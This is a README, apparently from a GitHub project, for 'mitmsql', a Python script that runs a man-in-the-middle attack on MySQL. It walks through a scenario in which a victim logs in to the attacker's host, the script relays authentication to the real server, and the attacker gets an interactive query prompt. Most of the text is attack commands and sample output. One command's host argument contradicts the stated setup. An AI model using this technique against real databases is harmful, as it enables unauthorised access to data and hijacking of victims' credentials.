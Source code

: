 # mitmsql
Man in the Middle Attack for MySQL.

# Example

## Situation
MySQL Server is at `192.168.0.1`.
MITMySQL Server (this script) will listen 0.0.0.0:3306 (*you can change this with `--lport` option*) at `192.168.0.2`.

A victim (client) connects to MITMySQL Server (this script) = `192.168.0.2` and he has the credential for valid MySQL server `192.168.0.1`.

## How it works.
The attacker run this script at `192.168.0.2`.
```
$ python mitmysql.py --host 192.168.0.1
[*] WAITING FOR CLIENT...
```

The victim will connect to `192.168.0.2` from `192.168.0.3`, and input his password.
```
mysql -h 192.168.0.2 -p
```

When the authentication succeeded, the attacker will see the interpreter and he can execute queries to `192.168.0.1`.
```
$ python mitmysql.py --host 192.168.0.3
[*] WAITING FOR CLIENT...
[*] CONNECTED BY: ('192.168.0.3', 64600)
[+] GOT SERVER INFORMATION: 5.5.5-10.1.23-MariaDB-9+deb9u1
[+] AUTHENTICATION SUCCEEDED
>  show databases
(('information_schema',), ('mysql',), ('performance_schema',))
> use information_schema
()
>
```
